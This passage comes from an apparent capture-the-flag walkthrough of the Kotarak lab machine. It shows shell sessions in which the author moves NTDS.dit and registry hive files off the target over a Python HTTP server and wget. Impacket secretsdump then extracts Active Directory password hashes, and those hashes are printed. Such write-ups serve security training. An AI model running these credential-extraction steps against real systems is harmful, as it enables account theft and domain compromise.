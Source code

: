```text
tomcat@kotarak-dmz:/$ cd backups/backups/tomcat@kotarak-dmz:/backups/backups$ ls
tomcat-users.xmltomcat@kotarak-dmz:/backups/backups$ cat tomcat-users.xml 
cat: tomcat-users.xml: Permission denied
```

We don’t have permission. Next, view the content of _tomcat_’s home directory.

```text
tomcat@kotarak-dmz:/backups/backups$ cd /hometomcat@kotarak-dmz:/home$ ls
atanas  tomcattomcat@kotarak-dmz:/home$ cd tomcat/to_archive/pentest_data/tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

The _pentest\_data_ directory seems to contain the ntds.dit and SYSTEM registry hive files. We can use these files to extract Active Directory password hashes. First, let’s confirm the file types.

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ file *
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: data
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above
```

Next, transfer these files to our attack machine. Set up a python server on the target machine.

```text
python -m SimpleHTTPServer 5555
```

Then download the files on the target machine.

```text
wget http://10.10.10.55:5555/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.ditwget http://10.10.10.55:5555/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Use [Impacket’s secretdump script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract passwords.

```text
impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```

This gives us a dump of hashes of which only two are of interest to us.

```text
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.ditAdministrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
...
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

